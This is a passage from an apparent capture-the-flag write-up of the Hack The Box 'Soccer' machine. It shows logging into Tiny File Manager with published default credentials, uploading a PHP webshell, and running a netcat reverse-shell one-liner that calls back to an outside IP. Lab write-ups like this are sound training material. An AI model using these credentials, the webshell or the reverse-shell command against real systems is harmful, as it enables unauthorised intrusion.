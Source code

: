 
Let's visit the `/tiny` directory to see what can be used.

![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308164248.png){: width="700" height="400" }

There is a link to the Github website of the ccc Programmers. We should investigate the content of the Github.
```
https://github.com/prasathmani/tinyfilemanager/wiki/Security-and-User-Management
```


![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308164426.png){: width="700" height="400" }

We have found some default credentials

- `admin:admin@123`
- `user:12345`

We can try to use those credentials in the login form to see if the default credentials are used.

![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308164517.png){: width="700" height="400" }

We have success while using the default credentials for the admin account. Once we are logged on we can see we can upload files to the website. Let's navigate to the uploads folder in the website.

![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308165806.png){: width="700" height="400" }

Next we should click on the upload button and select our `webshell.php` to upload.

![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308165904.png){: width="700" height="400" }

We should return to the previous screen by clicking on the `Back` link.

![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308170018.png){: width="700" height="400" }

The file have been uploaded. This gives us probably the ability to gain access to the system.

![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308170302.png){: width="700" height="400" }

Let's start a netcat listener first so we can capture a reverse shell.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Soccer]
└─$ rlwrap nc -lvp 1234
listening on [any] 1234 ...

```

When executing the command a `404` page was shown. So the file has been removed from the system. We can try it again and launch as quick as possible the command to gain a reverse shell.
First we should upload the file again. Then we should enter our command to gain a reverse shell.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.124 1234 >/tmp/f
```
![image](/assets/img/WriteUp/HTB/Soccer/Pasted image 20240308170811.png){: width="700" height="400" }
